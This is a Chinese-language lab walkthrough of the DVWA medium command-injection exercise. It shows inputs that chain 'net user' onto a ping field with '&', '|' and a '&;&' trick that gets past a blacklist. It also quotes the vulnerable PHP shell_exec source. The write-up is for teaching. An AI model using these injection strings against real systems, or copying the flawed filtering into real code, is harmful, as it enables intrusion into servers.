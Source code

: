 ### medium
先不看源码直接输入上个命令`127.0.0.100&&net user `

```
Ping 请求找不到主机 192.168.1.1ipconfig。请检查该名称，然后重试。
```
我们猜测是服务器过滤了`&&`字符串.这里我们需要学习连接符
”&&”与” &”
> 都可以连接两个命令
> Command 1&&Command 2:先执行Command 1，执行成功后执行Command 2，否则不执行Command 2
> Command 1&Command 2:先执行Command 1，不管是否成功，都会执行Command 2

那么我们就尝试`127.0.0.100&net user `
成功了!服务器没有过滤`&`字符

我们再尝试一下管道符号`|`(管道符,前一个命令的输出作为后一个命令的输入)
`127.0.0.1|net user`

```
\\DESKTOP-SPG9P 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Doll SY DA               
Guest                    WDAGUtilityAccount       
命令成功完成。

```
ping命令没有显示但是netuser显示了.所以管道符也可以使用.

下面查看源码

```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = $_REQUEST[ 'ip' ]; 
    // Set blacklist 
    $substitutions = array( 
        '&&' => '', 
        ';'  => '', 
    ); 
    // Remove any of the charactars in the array (blacklist). 
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 
    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 
    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 
?>


```
我们注意到有个`str_replace()`方法把`&&`和`;`替换为空
所以我们可以构造,绕过`&&`过滤
`192.193.1.1&;&net user`
这样过滤掉分号就剩下`&&`了.
